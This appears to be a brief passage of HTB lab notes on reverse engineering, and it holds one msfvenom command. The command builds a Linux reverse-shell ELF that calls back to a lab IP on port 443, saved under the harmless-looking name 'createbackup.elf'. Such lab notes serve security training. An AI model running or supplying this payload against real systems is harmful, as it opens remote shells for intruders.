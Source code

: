 #Reverse_Engineering

---

- To create a reverse shell we use the following `msfvenom` command
```bash
emi2024@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```

